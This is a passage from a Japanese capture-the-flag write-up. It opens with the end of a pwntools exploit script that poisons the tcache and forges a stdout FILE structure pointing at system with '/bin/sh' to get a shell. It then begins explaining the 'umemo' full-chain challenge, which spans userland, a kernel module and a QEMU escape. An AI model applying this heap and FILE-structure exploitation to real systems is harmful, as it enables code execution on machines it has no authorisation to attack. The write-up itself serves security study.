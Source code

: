 ```python
payload = b''
payload += p64(0x7000700070007) * 16
payload += flat(stdout)*0x30
alloc(6, payload+b'\n', tcache_size)

payload = b''
payload += flat(0x0101010101010101, u64(b';/bin/sh')) # flags, readp
payload += flat(0, 0) # reade, readb
payload += flat(0, 1) # writeb, writep
payload += flat(0, 0) # bufb, bufp
payload += flat(0, 0) # bufe, saveb
payload += flat(0, 0) # backb, savee
payload += flat(0, 0) # markers, chain
payload += flat(system, 0) # fileno|flags2, old_offset
payload += flat(0, stdout_lock) # 0, lock
payload += flat(0, 0) # offset, codecvt
payload += flat(stdout, 0) # wide_data, freeres_list
payload += flat(0, 0) # freeres_buf
payload += flat(0xffffffff, 0) # freeres_buf
#payload += flat(0, base+0x2160c0-0x58+0x18) # 0, vtable
payload += flat(0, base+0x2160c0) # 0, vtable
payload += flat(stdout+8)

alloc(6, payload)

r.interactive()
r.close()

```

# umemo

この問題はfullchainの問題になっていて、ユーザランド、カーネルモジュール、qemuエスケープで３つにわかれています。umemoはこのうちのユーザランドのプロセスになります。

2問目がある以上モジュールにはバグはないと思って、ユーザランドのバイナリを集中して見ていましたが、競技時間中は特に怪しいところを見つけられずに終わりました。そしてバグはカーネルモジュールにありました。

まず、メモを保存する領域`memos`はmmapで確保されて、最初の0x1000バイトのところに配列として、それぞれのメモへのポインタが置かれます。このポインタはユーザランド側のアドレスが入ります。

```c
        char **memos;
        if((memos = mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, fd, 0)) == MAP_FAILED){
                perror("mmap");
                return -1;
        }

        for(int i=0; i<0xf; i++)
                memos[i] = (char*)memos + 0x100*(i+1);
```


free_spaceでは、オフセットを指定してそこに書き込むことができます。このとき、最初の1ページは`memos`のアドレスが格納されているため、ここの読み書きができるとプロセスのAAR/Wがいきなり完成しますが、これは上手くいきません。

